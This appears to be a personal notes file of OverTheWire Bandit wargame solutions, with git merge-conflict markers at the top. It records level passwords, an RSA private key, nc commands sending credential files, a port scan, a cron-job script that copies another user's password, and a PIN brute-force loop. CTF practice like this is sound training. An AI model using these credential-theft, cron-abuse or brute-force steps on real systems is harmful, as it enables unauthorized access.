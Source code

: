 <<<<<<< HEAD
# Bandit | Over The Wire - Wargames
=======
## lvl
>>>>>>> e12f33a4e2ce2aabafb05b90d104e6605e1c23d5

[Bandit | Over The Wire - Wargames](https://overthewire.org/wargames/bandit/)

## lvl 7 -> 8 
    TESKZC0XvTetK0S9xNwm25STk5iWrBvP
## lvl 11 -> 12         

    JVNBBFSmZwKKOP0XbFXOoW8chDz5yVRv


    find . -name "*.txt" -exec -wc -l 

## lvl 12 -> 13 
    psw = wbWdlBxEir4CaE8LaPhauuOo6pwRmrDw

    xxd -r to reverse hexdump to bin
    gzip -d file.gz -> bzip2 -> tar -xfv file -> cat textfile

use comaand file to understand which is the decompression algo to use

## lvl 13 -> 14

    ssh -p 2220 -i ssh.key bandit14@overthe...

## lvl 14 -> 15
send a file to host:port

    nc -N localhost 30000 < /etc/bandit_pass/bandit14

    pwd = jN2kgmIXJ6fShzhT2avhotn4Zcka6tnt

## lvl 15 -> 16
to create a ssl connection 
openssl s_client -connect localhost:30001

pwd = JQttfApK4SeyHwDlI9SXGR50qclOAil1

## lvl 16 -> 17
scan ports 

    nmap -T4 -sV -p 31000-32000

    openssl s_client -connect localhost:31790

for creating file use `nano`

    -----BEGIN RSA PRIVATE KEY-----
    MIIEogIBAAKCAQEAvmOkuifmMg6HL2YPIOjon6iWfbp7c3jx34YkYWqUH57SUdyJ
    imZzeyGC0gtZPGujUSxiJSWI/oTqexh+cAMTSMlOJf7+BrJObArnxd9Y7YT2bRPQ
    Ja6Lzb558YW3FZl87ORiO+rW4LCDCNd2lUvLE/GL2GWyuKN0K5iCd5TbtJzEkQTu
    DSt2mcNn4rhAL+JFr56o4T6z8WWAW18BR6yGrMq7Q/kALHYW3OekePQAzL0VUYbW
    JGTi65CxbCnzc/w4+mqQyvmzpWtMAzJTzAzQxNbkR2MBGySxDLrjg0LWN6sK7wNX
    x0YVztz/zbIkPjfkU1jHS+9EbVNj+D1XFOJuaQIDAQABAoIBABagpxpM1aoLWfvD
    KHcj10nqcoBc4oE11aFYQwik7xfW+24pRNuDE6SFthOar69jp5RlLwD1NhPx3iBl
    J9nOM8OJ0VToum43UOS8YxF8WwhXriYGnc1sskbwpXOUDc9uX4+UESzH22P29ovd
    d8WErY0gPxun8pbJLmxkAtWNhpMvfe0050vk9TL5wqbu9AlbssgTcCXkMQnPw9nC
    YNN6DDP2lbcBrvgT9YCNL6C+ZKufD52yOQ9qOkwFTEQpjtF4uNtJom+asvlpmS8A
    vLY9r60wYSvmZhNqBUrj7lyCtXMIu1kkd4w7F77k+DjHoAXyxcUp1DGL51sOmama
    +TOWWgECgYEA8JtPxP0GRJ+IQkX262jM3dEIkza8ky5moIwUqYdsx0NxHgRRhORT
    8c8hAuRBb2G82so8vUHk/fur85OEfc9TncnCY2crpoqsghifKLxrLgtT+qDpfZnx
    SatLdt8GfQ85yA7hnWWJ2MxF3NaeSDm75Lsm+tBbAiyc9P2jGRNtMSkCgYEAypHd
    HCctNi/FwjulhttFx/rHYKhLidZDFYeiE/v45bN4yFm8x7R/b0iE7KaszX+Exdvt
    SghaTdcG0Knyw1bpJVyusavPzpaJMjdJ6tcFhVAbAjm7enCIvGCSx+X3l5SiWg0A
    R57hJglezIiVjv3aGwHwvlZvtszK6zV6oXFAu0ECgYAbjo46T4hyP5tJi93V5HDi
    Ttiek7xRVxUl+iU7rWkGAXFpMLFteQEsRr7PJ/lemmEY5eTDAFMLy9FL2m9oQWCg
    R8VdwSk8r9FGLS+9aKcV5PI/WEKlwgXinB3OhYimtiG2Cg5JCqIZFHxD6MjEGOiu
    L8ktHMPvodBwNsSBULpG0QKBgBAplTfC1HOnWiMGOU3KPwYWt0O6CdTkmJOmL8Ni
    blh9elyZ9FsGxsgtRBXRsqXuz7wtsQAgLHxbdLq/ZJQ7YfzOKU4ZxEnabvXnvWkU
    YOdjHdSOoKvDQNWu6ucyLRAWFuISeXw9a/9p7ftpxm0TSgyvmfLF2MIAEwyzRqaM
    77pBAoGAMmjmIJdjp+Ez8duyn3ieo36yrttF5NSsJLAbxFpdlc1gvtGCWW+9Cq0b
    dxviW8+TFVEBl1O4f7HVm6EpTscdDxU+bCXWkfjuRb7Dy9GOtt9JPsX8MBTakzh3
    vBgsyi/sN3RqRBcGU40fOoZyfAMT8s1m/uYv52O6IgeuZ/ujbjY=
    -----END RSA PRIVATE KEY-----

change permissions give read rights only

    chmod 700 ssh.private 

## lvl 17 -> 18

    pwd = hga5tuuCLF6fFzUpnagiMN8ssu9LFrdg

## lvl 18 -> 19
    ssh -p 2220 bandit18@bandit.labs.overthewire.org "cat ~/readme"

    pwd = awhqfNnAbc1naukrpqDYcF95h7HoMTrC

## lvl 19 -> 20
    ./bandit20-do cat /etc/bandit_pass/bandit20

    pwd = VxCazJaVykI6W36BkBU0mJTCM8rR95XT

## lvl 20 -> 21

    pwd = NvEJF7oVjkddltPSrdKEFOllh9V1IBcq

nc netcat create server with listening on port portnumber

    echo "pwd" | nc -l -p portnumber 

reads data from portnumber and print the next password

    ./suconnect portnumer 


## lvl 21 -> 22
    pwd = WdDozAdTM2z9DiFEQ2mGlwngMfj4EZff

find cron job using 

    ls -la  /etc/cron.d/

read what it does (job for bandit22)
it says it run a script from 

    usr/bin/cronjob_bandit22.sh
read the file

    cat usr/bin/cronjob_bandit22.sh
it says outputs something to 

    /tmp/t7O6lds9S0RqQh9aMcz6ShpAoZKF7fgv

read it

    cat /tmp/t7O6lds9S0RqQh9aMcz6ShpAoZKF7fgv


## lvl 22 -> 23
    pwd = QYw0Y2aiA672PsMmh9puTQuhoz8SyR2G

find cronojob file from /etx/cron.d/ for bandit23
read the script from /usr/

    echo I am user bandit23 | md5sum | cut -d ' ' -f 1
    cat /tmp/8ca319486bfbbc3663ea0fbe81326349

# banidt 23 -> 24

    pwd = VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar

read the cron.d file and find the folder where we need copy the script

    /etc/cron.d/
    /usr/bin/conjob_... .sh

    /var/spool/bandit24/foo

create a temp dir using 

    mktemp -d

create a bash script

    !#/bin/bash

    mkdir -p /tmp/THIS_FOLDER/$(cat /etc/bandit_pass/bandit24)

change permissions of the folder, of the script.sh

    chmod 777 folder
    chmod +rx script.sh
    cp script.sh /var/spool/bandit24/foo/script.sh

wait for a minute

## lvl 24 -> 25
~~~bash
    #!/bin/bash

    for i in {0000..9999}; do 
        output=$(echo "VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar ${i}" | nc localhost 30002)
        echo $output $i
        if [[ "$output" != *"Try again"* ]];
        then echo "$output"
        fi
    done;
~~~
~~~sh
    #!/bin/bash

    for i in {0000..9999}; do 
        echo "VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar ${i}" >> output.txt
    done;

    cat output.txt | nc localhost 30002
~~~

    chmod +x script.sh
    cat output.txt | nc localhost 30002 > results.txt

## lvl 25 -> 26



